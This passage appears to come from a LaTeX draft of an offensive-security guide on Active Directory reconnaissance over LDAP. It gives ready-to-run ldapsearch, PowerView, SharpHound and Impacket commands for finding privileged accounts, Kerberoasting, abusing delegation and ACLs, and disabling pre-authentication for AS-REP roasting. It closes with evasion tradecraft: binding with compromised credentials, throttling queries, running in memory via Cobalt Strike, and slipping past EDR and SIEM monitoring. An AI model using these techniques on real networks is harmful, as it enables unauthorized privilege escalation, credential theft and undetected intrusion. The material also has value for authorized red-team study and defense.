%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}%\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(!userAccountControl:1.2.840.113556.1.4.803:=65536)"

That’s how you find accounts with the \texttt{DON'T\_EXPIRE\_PASSWORD} flag set. Perfect for persistence.

If you are using C\# or .NET payloads, use \texttt{System.DirectoryServices} to script it. For example, using \texttt{System.DirectoryServices;}

\texttt{DirectoryEntry entry = new DirectoryEntry("LDAP://DC=corp,DC=local");
DirectorySearcher searcher = new DirectorySearcher(entry);
searcher.Filter = "(objectClass=user)";
foreach (SearchResult result in searcher.FindAll()) \{
    Console.WriteLine(result.Properties["samaccountname"][0]);
\}}

Does it look clean? Yes. Will it be flagged? Probably not. It’s all native API use.

Now from here. your goal is simple: build a short list. List who are the high-value users. Who are the loud admins? Who runs scheduled tasks or owns GPOs? You will use this list to guide your every move that comes here and after.

\textbf{Enumerating Groups - Mapping the Power Structures in AD}

In this section, we move from individual accounts to \textit{group structures} - because in Active Directory, \textit{power hides in groups. }Admin rights. RDP access. GPO ownership. You don’t always get it by being a domain admin either. Sometimes you inherit it from a group no one has looked at in years.

Once you have pulled the list of users, your next move is to \textbf{map out the groups}. Groups in Active Directory control almost everything: file share access, script deployment, firewall rules, registry permissions, GPO application—you name it. But more important, groups also contain \textbf{nested privilege}. A user might look harmless on the surface, but if they’re buried in a group that inherits from Administrators, they’re sitting on a gold mine.

Start with PowerView. It makes this easy:

\texttt{Get-DomainGroup}

This pulls all groups from AD. But raw data is just noise. What you want is \textbf{signal}. Start looking for high-privilege groups:

%Get-DomainGroup | Where-Object \{ \$_.Name -match "admin|schema|enterprise|domain|backup" \}
Some targets to watch:
\begin{itemize}
    \item \textbf{Domain Admins} — obvious.

    \item \textbf{Enterprise Admins} — god mode across the forest.

    \item \textbf{Administrators} — Built-in local admin access on DCs.

    \item \textbf{Backup Operators} — often overlooked, but can back up (and restore) sensitive data.

    \item \textbf{Account Operators} — can create users or modify groups.

    \item \textbf{Server Operators} — often can restart services or access consoles.

\end{itemize}
Next, pull group members. For example:

Get-DomainGroupMember -Identity "Domain Admins"

Want to get recursive? Check nested groups with:


Get-DomainGroupMember -Recurse -Identity "Administrators"

This shows you the real privilege path. An attacker doesn’t care if svc-sql isn’t a DA. If it’s a member of a group that’s a member of a group that’s a DA—it’s a DA. That’s what you look for.

In ldapsearch, here’s how you pull group objects:


%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(objectClass=group)" cn member

This gives you group names (cn) and their members. To trace group membership, you’ll often see memberOf attributes on user objects, like this:

ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}%\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(sAMAccountName=john.doe)" memberOf

Sometimes, these memberships are nested five, ten layers deep. That’s where \textbf{BloodHound} comes in. You can use \textbf{SharpHound} to dump group relationships in bulk:

SharpHound.exe -c GroupMembership

Import it into the BloodHound GUI, and you get visual graphs that show how low-privilege users inherit access to sensitive resources via group nesting. One click, and you see, for example, that svc-printer01 is effectively a domain admin because of a convoluted group chain.

Looking for GPO-related privilege? Use this:

Get-DomainObjectAcl -SearchBase "OU=Domain Controllers,DC=corp,DC=local" -ResolveGUIDs | 

%Where-Object \{ \$_.IdentityReference -match "Domain Users" -and \$_.ActiveDirectoryRights -match "GenericAll|WriteDACL" \}

This tells you if a group like "Domain Users" has write rights to an OU that applies to critical systems. If that’s true, any member of that group can \textbf{backdoor GPOs}—which means compromise.

You can also hunt for \textbf{unusual groups}. Think ones with five members, obscure names, or descriptions like “OldAdminOverride” or “OpsOverride2020.” Admins love to make temporary groups that become permanent. And no one audits them.

Another trick? Find groups with no descriptions. These are often hidden gems that no one remembers exist:

%Get-DomainGroup | Where-Object \{ \$_.Description -eq \$null \}

Now cross-reference these with group members, and you’ll find users who have privilege but don’t look privileged.

Why does all this matter? Because the real privilege in AD isn’t always obvious. It’s buried in \textbf{group nesting}, \textbf{delegation rights}, and \textbf{access control lists}. LDAP gives you the blueprint to dig it all up.

\textbf{Enumerating Computers - Picking the Machines That Matter}

In this section, we shift focus to \textit{computer enumeration - }because understanding who has access is only half the battle. Now you need to know \textit{where} they access. Not every machine is created equal, and LDAP tells you which ones are \textit{stepping stones}, which are \textit{targets, }and which are just pure noise.

Once you’ve mapped users and groups, it’s time to plot your route across the domain. That starts with \textbf{enumerating the machines}. You don’t need Nmap. You don’t need to touch the network. LDAP can tell you everything: hostname, OS version, when it last authenticated, which users log in often, and even if it’s running as a DC. Think of it as passive recon with surgical precision.

Using \textbf{PowerView}, you can enumerate every computer in the domain like this:


Get-DomainComputer

That’ll dump the full list. But raw lists are for amateurs. You want filters—because you’re looking for \textbf{targets}.

Want to find domain controllers?

Get-DomainComputer -Properties operatingSystem |

%    Where-Object \{ \$_.operatingSystem -like "*Server*" -and \$_.operatingSystem -match "Domain Controller" \}

Want to find machines running legacy OSes?

\texttt{Get-DomainComputer -Properties operatingsystem}

%    Where-Object \{ \$_.operatingsystem -match "Windows 7|Windows Server 2008" \}

Old OS versions usually mean weak configurations, poor patching, and \textbf{easy wins}.

Now let’s talk about activity. You don’t want cold machines. You want \textbf{hot ones}—the boxes users actively log into. LDAP stores lastLogonTimestamp, which is replicated across DCs and shows you when the machine last authenticated.


Get-DomainComputer -Properties lastLogonTimestamp |

%    Where-Object \{ \$_.lastLogonTimestamp -ne \$null \} |

    Sort-Object lastLogonTimestamp -Descending

Machines at the top? They’re active. They’re connected. They’re \textbf{likely to have valid tokens}.

Want to get even better signal? Filter by description fields. Admins often label servers like this:

\begin{itemize}
    \item “SQL Production”

    \item “FileShare”

    \item “Dev-JumpBox”

    \item “Backup\_DC2”

\end{itemize}
That’s your blueprint.

Get-DomainComputer -Properties description |

%\begin{lstlisting{Where-Object \{ \$_.description -match "SQL|Jump|Share|Backup" \}
%\end{lstlisting}
Each of those may host valuable credentials in memory, sensitive data, or lead to privileged access.
If you’re using ldapsearch, the syntax looks like this:
%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}%\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(objectClass=computer)" cn operatingSystem lastLogonTimestamp description
And in C\#:

DirectorySearcher searcher = new DirectorySearcher("(\&(objectClass=computer))");

searcher.PropertiesToLoad.Add("cn");

searcher.PropertiesToLoad.Add("operatingSystem");

searcher.PropertiesToLoad.Add("lastLogonTimestamp");

Want to filter further? Find \textbf{machines with logged-on privileged users}. BloodHound makes this trivial with session collection:

SharpHound.exe -c Sessions

But even without SharpHound, you can infer targets by analyzing \textbf{who owns what}. If DA\_john is logged in somewhere, and that machine is listed in AD, you can bet it’s worth checking for open RDP, SMB, or tokens in memory.

Also watch for naming patterns. Admins often name critical boxes predictably:

\begin{itemize}
    \item dc01, dc02

    \item fs01 (File Server)

    \item sccm, wsus, vcenter

    \item mgmt-01, admin-box

\end{itemize}
When you see that pattern, flag it. That’s where the crown jewels sit.

Want to go next level? Extract \textbf{servicePrincipalName} (SPN) values from machines to identify Kerberoastable accounts:

Get-DomainComputer -Properties servicePrincipalName |

%    Where-Object \{ \$_.servicePrincipalName -ne \$null \}

Each SPN mapped to a service account is a ticket you can roast. We'll go deeper into that in a later chunk.

To sum it up: LDAP gives you visibility into every machine’s metadata—without touching the machine itself. No scanning. No alerts. Just surgical targeting.

\textbf{Identifying High-Value Targets - The Privilege Path You’re Really After}

Here is where everything starts to click. You’ve got the users, the groups, the machines. Now it’s time to hunt \textit{high-value targets} - because privilege is your finish line, and LDAP shows you \textit{how to get there without tripping any alarms.}

This is where you separate script kiddies from real operators. A list of users and machines is just data. What you want is \textbf{a map to the top}—a route from wherever you are to wherever the power is. That means figuring out who the real players are in the domain. Not just Domain Admins. \textbf{Who has delegated rights? Who owns GPOs? Who can write to privileged objects?} Those are your targets.

Start by identifying accounts with adminCount = 1. We touched on this earlier, but here’s why it matters: AdminSDHolder is a mechanism that stamps protected groups and their members with security descriptors. When adminCount is set to 1, the account is treated as privileged—even if someone forgot to remove it from Domain Admins months ago.
Get-DomainUser -LDAPFilter "(adminCount=1)"

That one line tells you who’s ever been considered privileged. It’s one of the most overlooked breadcrumbs in AD recon.

Next: find \textbf{service accounts}. These accounts are often tied to SPNs, have no password expiration, and sometimes run as SYSTEM on critical boxes. Easy persistence. Easy hash dumping. Easy privilege escalation.

Filter them like this:
Get-DomainUser -Properties samaccountname,servicePrincipalName,userAccountControl |

Where-Object \{ \$\_.servicePrincipalName -ne \$null -or (\$\_.userAccountControl -band 0x10000) \}
Look for DONT\_EXPIRE\_PASSWORD and TRUSTED\_FOR\_DELEGATION. The former means long-term access. The latter means full impersonation.

Then look at \textbf{group policy owners}. Anyone who can write to a GPO that applies to servers can inject logon scripts, registry keys, or scheduled tasks. That’s privilege escalation with one line of code.

Use PowerView:

Get-DomainObjectAcl -SearchBase "OU=Domain Controllers,DC=corp,DC=local" -ResolveGUIDs |

Where-Object \{ \$\_.ActiveDirectoryRights -match "GenericAll|WriteDACL|WriteOwner" \}
This tells you which users or groups can modify GPOs linked to domain controllers. You don’t need to be a DA if you can \textbf{inject payloads into their policy path}.

Now pivot to \textbf{ACL abuse}. LDAP lets you enumerate every security descriptor in AD. You can hunt for:

\begin{itemize}
    \item GenericAll (full control)

    \item GenericWrite (property control)

    \item WriteDACL (modify ACLs)

    \item WriteOwner (change object owner)

\end{itemize}
With PowerView:

Find-InterestingDomainAcl -ResolveGUIDs

This command alone will find \textbf{non-admin users who have admin-like power}. And it happens all the time. Helpdesk accounts, old contractors, even automation bots get added to ACLs to “make things easier.” That’s your in.

Next: watch for \textbf{SIDHistory} abuse. Sometimes, accounts are migrated from other domains and bring their SID with them. If a user has SIDHistory set to the SID of a privileged account, they’ll inherit that access silently.

Check with:
Get-DomainUser -Properties sIDHistory |

Where-Object \{ \$\_.sIDHistory -ne \$null \}
This is a stealthy privilege path that bypasses group membership checks. If the SIDHistory contains the SID of a Domain Admin, \textbf{that user is a Domain Admin}, even if they’re not in the group.

Let’s not forget \textbf{logon scripts and service accounts}. If you can modify a GPO that applies to User Configuration, and that GPO contains a logon script path, you’ve got code execution as that user. Same with any service that auto-starts with a writable binary path.

And then there’s \textbf{delegation}. Find users and computers with these flags:

\begin{itemize}
    \item TRUSTED\_FOR\_DELEGATION

    \item TRUSTED\_TO\_AUTH\_FOR\_DELEGATION

\end{itemize}
Query like this:

Get-DomainUser -TrustedToAuth

Get-DomainComputer -TrustedToAuth

Those accounts can impersonate others—sometimes even to domain controllers.

Finally, when all else fails, look for \textbf{descriptions}. Admins love to leave notes in the AD description field. These are free hints.

Get-DomainUser -Properties description |

%Where-Object \{ \$_.description -match "admin|backup|svc|legacy" \}
You’d be amazed how often you’ll find things like:

\begin{itemize}
    \item “Old admin account – don’t delete”

    \item “DA override for backup script”

    \item “Temporary domain join”

\end{itemize}
Every one of those is an opportunity.

Bottom line: LDAP recon isn’t about finding the DA account and going straight for it. It’s about finding \textit{the weakest link in the privilege chain}—and LDAP shows you exactly where the chain is rusting.

\textbf{Abusing Object Attributes - SPNs, Delegation Flags, and ACLs}

In this section, we expose some of LDAPs most dangerous truths: how certain attributes - when abused - hand over the keys to the castle. This is where attackers move from recon to \textit{weaponizing} what they see, all by querying the directory like a polite insider.

Let’s get blunt. Most attackers don’t need exploits to escalate in Active Directory. They just need LDAP. Because AD is more than a directory—it’s a \textbf{database full of misconfigurations}. And the object attributes it stores? They tell you \textbf{how and where to escalate}—with no shellcode, no malware, and no noise.

Let’s start with the big one: \textbf{SPNs (Service Principal Names)}. If a user account has an SPN assigned, you can request a Kerberos ticket for that service, \textbf{offline crack the ticket}, and dump the user’s hash. That’s called \textbf{Kerberoasting}. And LDAP will give you the entire SPN list in seconds.

In PowerView:

Get-DomainUser -SPN

That’s all it takes.

Want more detail?

Get-DomainUser -Properties samAccountName,servicePrincipalName,userAccountControl |

%Where-Object \{ \$_.servicePrincipalName -ne \$null -and (\$_.userAccountControl -band 0x110) \}

That filters for accounts with SPNs that also have DONT\_EXPIRE\_PASSWORD or are enabled. Ideal for Kerberoasting.

You can do the same with ldapsearch:
ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}%\user" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(servicePrincipalName=*)" samaccountname servicePrincipalName

Every result is potentially roastable. Now you just run Rubeus or GetUserSPNs.py from Impacket to request the ticket and crack it:

bash

 

GetUserSPNs.py -request corp.local/lowpriv:Password123!

Boom. TGS ticket in hand, crack offline with hashcat.

Next, delegation abuse. Three key attributes to check:

\begin{enumerate}
    \item TRUSTED\_FOR\_DELEGATION

    \item TRUSTED\_TO\_AUTH\_FOR\_DELEGATION

    \item msDS-AllowedToDelegateTo

\end{enumerate}
The first means the account can impersonate others to any service. The second means \textbf{constrained delegation with protocol transition}—and that's an attacker’s dream. Why? Because it lets you impersonate \textbf{any user}, including Domain Admins, \textbf{to any service listed}.

Check for delegation in PowerView:
Get-DomainUser -TrustedToAuth

Get-DomainComputer -TrustedToAuth

You’ll get a list of all accounts that can \textbf{act on behalf of others}. If you control one, you control any downstream resource.

Want to see where they can delegate to?

Get-DomainComputer -Properties msDS-AllowedToDelegateTo |

%Where-Object \{ \$_.'msDS-AllowedToDelegateTo' -ne \$null \}
That tells you which services are in scope. And once you control that account or machine, it’s game over.

Now let’s talk \textbf{ACLs (Access Control Lists)}. Most defenders only think in terms of group membership. But attackers? They look at \textbf{who can write to who}. And LDAP lets you pull the full set of ACLs on any object in the domain.

Use PowerView:

Find-InterestingDomainAcl -ResolveGUIDs

You’ll get a list of objects where low-privilege users have \textbf{GenericAll}, \textbf{WriteDACL}, or \textbf{WriteOwner}. That means:

\begin{itemize}
    \item They can change group membership

    \item They can modify permissions

    \item They can set owner and escalate

\end{itemize}
Let’s say svc-backup01 has GenericAll on Domain Admins. That means it can add itself to the group. It doesn’t need a DA session. It just writes the right bit in LDAP and it’s done.

Even better? ACL changes don’t always trigger alerts. Because it’s "just metadata."

Also, don’t sleep on msDS-AllowedToActOnBehalfOfOtherIdentity. This is used for \textbf{resource-based constrained delegation} (RBCD), and if misconfigured, lets you impersonate \textbf{anyone to a target machine}—if you control the delegating principal.

Pull it like this:

Get-DomainComputer -Properties msDS-AllowedToActOnBehalfOfOtherIdentity |

%Where-Object \{ \$_.'msDS-AllowedToActOnBehalfOfOtherIdentity' -ne \$null \}

Or from ldapsearch:

bash

 

ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}%\user" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)"

If a machine allows another identity to act on its behalf, and you control that identity? You own the target.

One more trick: hunt for writable userAccountControl. If you can flip bits here, you can \textit{disable pre-auth} (DONT\_REQUIRE\_PREAUTH) and launch \textit{AS-REP roasting} on users who don’t normally expose themselves.

 

 

Set-DomainUserUserAccountControl -Identity targetuser -PreauthNotRequired

Then roast.

This is the power of LDAP. It doesn’t just show you where to go. It shows you how to \textit{get inside without ever breaking a door}. Just query the metadata, find the soft spot, and squeeze.

\textbf{PowerView Deep Dive - Living Off the Land for AD Recon}

Here, we go deep into the tool that makes attackers feel like insiders: \textbf{PowerView. }This isn’t just a recon tool - it’s an entire framework for mapping and manipulating Active Directory from a command shell. If you’re going to live off the land, \textbf{this is the land.}

PowerView is the Swiss Army knife of LDAP-based AD reconnaissance. It’s written in  , blends into almost any Windows environment, and gives you full access to domain objects through legitimate system calls. That means no exploits. No DLL injections. No flashy malware. Just raw visibility, all through native APIs.

Let’s break it down by functionality—because PowerView isn’t one tool, it’s about 30.

\paragraph{   User Discovery}

We’ve covered this earlier, but here’s the surgical version:

 

 

Get-DomainUser -Filter * -Properties samaccountname,description,lastlogon

Want to find active users with signs of privilege?

 

 

Get-DomainUser -LDAPFilter "(\&(objectCategory=person)(objectClass=user)(adminCount=1))" -Properties samaccountname,lastlogon |

%Where-Object \{ \$_.lastlogon -gt 0 \}
That’s a list of previously privileged accounts that are still logging in.

Group Mapping

See who’s in what, and who can pull strings.

 

 

Get-DomainGroupMember -Identity "Administrators" -Recurse

Want every nested privilege link?

 

 

Get-DomainGroupMember -Identity "Domain Admins" -Recurse

Group membership isn’t just for DAs. Sometimes, Remote Desktop Users or Backup Operators get you farther without making noise.

\paragraph{   ACL Hunting}

This is where PowerView earns its keep. Most tools stop at groups. This goes deeper.

 

 

Find-InterestingDomainAcl -ResolveGUIDs

That tells you where you (or any user) has rights to write, control, or hijack. It exposes escalation paths that groups will never show.

Example:

 

 

Get-DomainObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs

See who can edit the DAs group. Sometimes it’s a script. Sometimes it’s an old helpdesk account no one remembers.

\paragraph{   Session Enumeration}

Want to know who’s logged in where? It’s not perfect, but if you have permissions, this works:

 

 

Invoke-UserHunter

You’ll find where users (especially privileged ones) have active sessions. That tells you where to target with lateral movement tools like PsExec, RDP, or token impersonation.

Want the quiet version?

 

 

Invoke-StealthUserHunter

Same data, less noise.

GPO Abuse Paths
This one’s a gem. If you can write to a GPO that links to servers or workstations, you’ve got code execution.

Get-DomainObjectAcl -SearchBase "OU=Domain Controllers,DC=corp,DC=local" -ResolveGUIDs |

%Where-Object \{ \$_.ActiveDirectoryRights -match "WriteDACL|GenericAll" \}

Follow up with:

 

 

Get-DomainGPO -Identity <GPOName> | Get-DomainObjectAcl -ResolveGUIDs

Now you can pinpoint which user can control which policy. That’s post-exploitation gold.

\paragraph{   SPN Recon for Kerberoasting}

Want a tailored list of roastable accounts?


Get-DomainUser -SPN

Want only accounts with non-expiring passwords?

Get-DomainUser -SPN -Properties userAccountControl |

%Where-Object \{ \$_.useraccountcontrol -band 0x10000 \}
Every line is a hash you can extract and crack offline.

\paragraph{   Trust Relationships}

If you’re in a forest or multi-domain environment, this is critical.

Get-DomainTrust

You’ll see domain trust direction, type, and transitivity. That tells you if you can pivot across domains, even if you’re not in them directly.

\paragraph{\textbf{Defenses It Bypasses (by Design)}}

PowerView doesn’t exploit vulnerabilities—it exploits design. Because it uses LDAP queries and .NET classes, it slips under most AV, EDR, and SIEM setups. Unless a blue team has explicit alerts for command strings or behavior patterns, it won’t make a sound.

But use it smartly. Don’t spray. Don’t loop. Don’t hammer the DC. Query with purpose, pause between commands, and blend in.

PowerView is surgical. It’s not about dumping everything. It’s about asking precise questions that only insiders know to ask. And because it uses Microsoft’s own APIs, it’s rarely blocked and rarely noticed.

\textbf{LDAPsearch on Linux - Pulling AD Intel Without Touching  }

In this section, we flip the perspective. You’re not on a Windows box. Maybe you popped a *nix jump host. Maybe you’re running your tools through a relay. Either way,  ’s off the table for now. Doesn’t matter - because `ldapsearch` gives you just as much power, with just as little noise.

You don’t need a Windows shell to own an Active Directory environment. LDAP is an open protocol, and as long as you’ve got valid creds and the domain allows anonymous or low-privileged binds, \textbf{you can ask LDAP anything}—from Linux, from macOS, or from a container halfway across the world.

That’s where ldapsearch comes in. It’s part of the ldap-utils package, available on most Unix-based systems. And it talks to Active Directory like a native.

Let’s break down how to \textbf{weaponize ldapsearch for recon}—quietly and effectively.

\paragraph{\textbf{   Authenticated Bind: Your LDAP Passport}}

First, establish your baseline. Let’s say you’ve got a domain user credential: lowprivuser and password Password123!. You’ll bind like this:


ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}%\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local"

That binds to the domain controller dc.corp.local, using the base DN derived from the domain corp.local.

Want to search anonymously? Some domains allow it:

%ldapsearch -x -H ldap://dc.corp.local -b "dc=corp,dc=local"

If that works, it’s a \textbf{misconfiguration gift}—you’ll still get user and group data, no creds needed.

\paragraph{\textbf{Enumerating Users}}

Pull all users in the domain:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(objectClass=user)" sAMAccountName displayName userPrincipalName

Want only enabled users?

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(\&(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))" \textbackslash{}

  sAMAccountName userAccountControl

This uses an LDAP matching rule to exclude disabled accounts.

\paragraph{\textbf{   Finding Domain Admins and High-Priv Groups}}

You can enumerate group membership like this:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(cn=Domain Admins)" member

You’ll get a list of full DNs for each member. You can then loop back and query each user object to extract more attributes.

Want all groups and their members?

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(objectClass=group)" cn member

Spotting Service Accounts with SPNs (for Kerberoasting

Kerberoastable accounts expose SPNs. Grab them with:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(servicePrincipalName=*)" samAccountName servicePrincipalName userAccountControl

Then grep for accounts with userAccountControl bitmask 0x110 (normal account + no password expiry). These are ideal targets.

\paragraph{\textbf{   Tracking Logon Activity}}

You can pull the lastLogonTimestamp attribute to estimate account activity:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(objectClass=user)" samAccountName lastLogonTimestamp

The value will be in Windows FileTime format. Convert it with:

date -d "@\$(((\$(echo <timestamp> | sed 's/...\$//') - 11644473600)))"

This gives you real-time awareness of who's active, who's dormant, and where your timing windows are.

\paragraph{\textbf{Finding Delegation Paths}}

Search for accounts with delegation privileges:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(\&(objectClass=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" \textbackslash{}

  sAMAccountName userAccountControl

That filters for TRUSTED\_FOR\_DELEGATION.

You can also grep for:

\begin{itemize}
    \item TRUSTED\_TO\_AUTH\_FOR\_DELEGATION → 16777216

    \item msDS-AllowedToActOnBehalfOfOtherIdentity → RBCD targets

\end{itemize}

\paragraph{\textbf{ACL Enumeration via }\textbf{ntSecurityDescriptor}}

LDAP doesn’t hand out full ACLs without a deeper bind and SD flags, but you can often infer them based on group membership and object ownership.

If needed, pivot to tools like ldapdomaindump to pull these programmatically:

%ldapdomaindump --no-grep -u 'corp\textbackslash{}\lowprivuser' -p 'Password123!' -o ./dump ldap://dc.corp.local

This gives you clean JSON and HTML output of the entire domain structure—users, groups, computers, ACLs, GPOs, and delegation paths.

ldapsearch is surgical. No  , no .NET. And that makes it perfect for:

\begin{itemize}
    \item Red teamers operating cross-platform
    \item Living off the land on compromised Linux assets
    \item Targeting hybrid AD environments from external relays
    \item Flying under defenders who only monitor Windows logs

\end{itemize}

\textbf{BloodHound \& SharpHound - Visualizing LDAP Recon Lika a Map of the Battlefield}

In this section, we plug everything into a weaponized visual layer. LDAP recon tells you what’s possible. \textbf{BloodHound} tells you what’s profitable. When you feed it right, you don’t just see targets—you see \textbf{pathways to take them down}, rendered like a GPS map for attackers.

If PowerView and ldapsearch are scalpels, \textbf{BloodHound} is your battle map. It turns all that raw LDAP intel—users, groups, computers, sessions, ACLs—into a graph database that shows you \textbf{how to move}, \textbf{who to compromise}, and \textbf{what gives you domain dominance}.

And at the heart of BloodHound is \textbf{SharpHound}—the ingestor that does the dirty work. It collects data using LDAP, SMB, and other native protocols, then outputs .json files that feed the BloodHound interface. From there, you’re not guessing anymore. You’re \textbf{navigating}.

SharpHound Collection Basics

First, grab a copy of SharpHound from the official BloodHound repository or your favorite staging method. If you’re on a compromised Windows host with user-level access, drop and run:

SharpHound.exe -c all

This collects everything:

\begin{itemize}
    \item AD object data (users, groups, computers)

    \item Session info

    \item ACLs

    \item SPNs

    \item GPO links

    \item Trusts

\end{itemize}
Want to stay quieter? Use selective collection:

SharpHound.exe -c Session,LocalAdmin,ACL

You can also use file output:

SharpHound.exe -c all -oJ -o <output\_path>

Or remote:

SharpHound.exe -c Trusts,ACL,Session -d corp.local -u lowpriv -p Password123! -oJ

This minimizes footprint and lets you operate without touching memory or spawning heavy tools.

BloodHound Interface: Reading the Graph
Once you import the JSON files into BloodHound (usually through the GUI), the fun begins. BloodHound’s interface is clean, powerful, and deadlier the more you use it.

Some core queries:

\begin{itemize}
    \item \textbf{Shortest path to domain admin}

 Shows every path—direct, nested, or through ACL misconfigurations—that your current user can follow to become a DA.

    \item \textbf{Users with unconstrained delegation}

Targets for ticket harvesting and impersonation.

    \item \textbf{Kerberoastable users}

Immediate candidates for hash extraction and offline cracking.

    \item \textbf{Users with RDP access to high-value targets}

Lateral movement gold.

    \item \textbf{Outbound/inbound control relationships}

Lets you pivot through nested permissions and compromised hosts.

\end{itemize}
These aren’t just checklists. They’re \textbf{weaponized relationships}. Every edge in the graph represents an action you can take. Every node is a user or system you can compromise. It’s not abstract—it’s \textbf{direct ops intelligence}.

\paragraph{\textbf{   Practical Examples}}

Let’s say you land on userA, a low-priv user. You run SharpHound and import into BloodHound. Then you run:

“Find Shortest Paths to Domain Admins from userA”

The output shows:

\begin{enumerate}
    \item userA has \textbf{GenericWrite} on group1

    \item group1 is nested inside group2

    \item group2 is a member of Domain Admins

\end{enumerate}

One hop at a time, LDAP recon turns into real escalation. You don’t need exploits—you just modify group membership via LDAP and refresh your token. Done.

Another scenario: BloodHound shows computerB has a session from admin1, and userA is a local admin on that box. Now you know:

\begin{itemize}
    \item If you compromise userA, you can log into computerB

    \item If admin1 is active, you can steal their token or dump LSASS

    \item From there, you’ve got DA creds

\end{itemize}
BloodHound didn’t invent the path. LDAP told it the truth. All BloodHound did was \textbf{draw the map}.

\paragraph{\textbf{   Staying Quiet}}

BloodHound’s collection methods can be noisy if used recklessly. To stay low:

\begin{itemize}
    \item Avoid SMB enumeration unless needed

    \item Disable session enumeration if defenders monitor it

    \item Use the LDAP or All collection with -NoSaveCache

    \item Run from a box that already has access to critical systems

\end{itemize}

\paragraph{\textbf{BloodHound CLI + Custom Queries}}

Want to script your recon? Use \textbf{BloodHound-python} or the Neo4j browser to write custom Cypher queries. Examples:

MATCH (n:User)-[:MemberOf*1..]->(g:Group) WHERE g.name = "DOMAIN ADMINS@corp.local" RETURN n.name

Or:

MATCH (u:User)-[:AdminTo]->(c:Computer) RETURN u.name, c.name

This is how you \textit{scale recon across large environments.} If there are hundreds of users, thousands of machines, and tangled trust paths, BloodHound is the only way to visualize your next move.

LDAP gave you the data. BloodHound gives you the clarity. The shortest path to domain admin isn’t just a concept—it’s right there in front of you. You just have to follow the lines.

\textbf{Staying Stealthy - How to Do LDAP Recon Without Getting Flagged}

In this section, we get serious about tradecraft. Recon gets you nowhere if it burns you halfway in. So now we shift focus to \textit{stealth - }how to run DLAP reconnaissance \textit{quietly, efficiently, }and \textit{undetected }in real-world networks.

Anyone can spray queries at LDAP. Real operators walk in like they belong. If your recon is noisy—constant queries, failed binds, broken filters—you’re not just wasting time. You’re tipping your hand. Security teams that monitor for behavior, not just payloads, are looking for exactly that.

So the goal? Pull as much intelligence as you can while looking like a \textbf{normal domain user} doing normal domain things. Here’s how you do it.

\paragraph{\textbf{   Use Legitimate Binds, Not Exploits}}

First rule: no anonymous binds unless you’ve confirmed they’re allowed. Many modern domains disable them. Instead, bind as a low-privileged domain user—preferably a compromised credential with no known monitoring attached.

Avoid binding as SYSTEM or NT AUTHORITY. Those stick out in logs and are sometimes restricted. The user you choose sets your \textbf{entire visibility scope}, so pick one that won’t raise flags.

\paragraph{\textbf{   Batch and Pause Your Queries}}

Don’t fire off 10,000 queries in 2 seconds. LDAP might be fast, but defenders use baseline analysis. If your user sends 5x more LDAP queries than any other workstation, you’re burned.

Instead:

\begin{itemize}
    \item \textbf{Batch your requests} into logical sets (e.g., user listing, then group mapping)

    \item \textbf{Throttle your queries} with sleep intervals

    \item \textbf{Spread the timing} over hours or days, if possible

\end{itemize}
Example in  :
\$users = Get-DomainUser

Start-Sleep -Seconds (Get-Random -Minimum 3 -Maximum 10)

\$groups = Get-DomainGroup

Looks like a user clicking through ADUC. Not a threat actor.

\paragraph{\textbf{   Minimize Attribute Requests}}

LDAP queries that ask for \textit{every} attribute on \textit{every} object look suspicious. You don’t need 50 fields. Just pull what you need:

\begin{itemize}
    \item sAMAccountName

    \item description

    \item memberOf

    \item servicePrincipalName

    \item userAccountControl

\end{itemize}
Trim the fat.

In PowerView:
Get-DomainUser -Properties samAccountName,description

In ldapsearch:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\user" -w 'Password123!' -b "dc=corp,dc=local" "(objectClass=user)" sAMAccountName

Less is more. And it flies under the radar.

Use Legitimate Toolchains

Avoid custom LDAP binaries or hacking tools that trigger AV heuristics. Stick to:

\begin{itemize}
    \item PowerView

    \item ldapsearch

    \item SharpHound (selectively)

    \item System.DirectoryServices (in C\#)

    \item BloodHound-python (from approved admin jump boxes)

\end{itemize}
These tools use real protocols, real APIs, and leave minimal footprints—especially if you \textbf{don’t tamper with them}.

\paragraph{\textbf{   Avoid File Drops}}

Where possible, \textbf{run in-memory}. Use tools like:

\begin{itemize}
    \item Invoke-Expression (for PowerView)

    \item Cobalt Strike Beacon to stage LDAP queries

    \item SharpHound.ps1 as a one-liner scriptblock

\end{itemize}
Every file you drop is a liability. It can be detected, quarantined, or audited.

\paragraph{\textbf{   Respect the Logs — Especially 4662}}

